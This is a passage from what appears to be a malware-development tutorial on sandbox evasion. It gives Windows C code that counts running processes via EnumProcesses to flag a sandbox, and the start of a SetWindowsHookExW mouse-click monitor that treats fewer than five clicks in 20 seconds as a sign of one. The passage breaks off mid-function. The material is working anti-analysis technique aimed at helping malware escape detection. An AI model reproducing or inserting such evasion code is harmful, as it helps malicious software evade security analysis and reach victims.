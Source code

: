 The processes will be enumerated using the `EnumProcesses` technique. The `CheckMachineProcesses` function returns `TRUE` if it detects a sandbox which is if the system is running less than 50 processes.


```
BOOL CheckMachineProcesses() {

	DWORD		adwProcesses	[1024];
	DWORD		dwReturnLen		= NULL,
			    dwNmbrOfPids		= NULL;

	if (!EnumProcesses(adwProcesses, sizeof(adwProcesses), &dwReturnLen)) {
		printf("\n\t[!] EnumProcesses Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	dwNmbrOfPids = dwReturnLen / sizeof(DWORD);

	// If less than 50 process, it's possibly a sandbox
	if (dwNmbrOfPids < 50)
		return TRUE;

	return FALSE;
}

```
### **Anti-Virtualization Via User Interaction**

Sandboxes often run in a headless environment, meaning that there is no display or peripherals, such as a keyboard and mouse. Headless environments are also typically automated and triggered by scripts or other tools. The lack of user interaction can be an indicator of a possible sandbox environment. For example, the malware can check if an environment does not receive any mouse clicks or keystrokes over a certain period.

Recall the *API Hooking - Using Windows APIs* module where the `SetWindowsHookExW` and `CallNextHookEx` WinAPIs were used to track mouse clicks. The same technique is applied in the function below, `MouseClicksLogger`. If it does not receive more than 5 mouse clicks over a period of 20 seconds then it will assume it's inside a sandboxed environment.


```
// Monitor mouse clicks for 20 seconds
#define MONITOR_TIME   20000 // Global hook handle variable
HHOOK g_hMouseHook      = NULL;
// Global mouse clicks counter
DWORD g_dwMouseClicks   = NULL;

// The callback function that will be executed whenever the user clicked a mouse button
LRESULT CALLBACK HookEvent(int nCode, WPARAM wParam, LPARAM lParam){

    // WM_RBUTTONDOWN :         "Right Mouse Click"
    // WM_LBUTTONDOWN :         "Left Mouse Click"
    // WM_MBUTTONDOWN :         "Middle Mouse Click"

    if (wParam == WM_LBUTTONDOWN || wParam == WM_RBUTTONDOWN || wParam == WM_MBUTTONDOWN) {
        printf("[+] Mouse Click Recorded \n");
        g_dwMouseClicks++;
    }

    return CallNextHookEx(g_hMouseHook, nCode, wParam, lParam);
}


BOOL MouseClicksLogger(){

```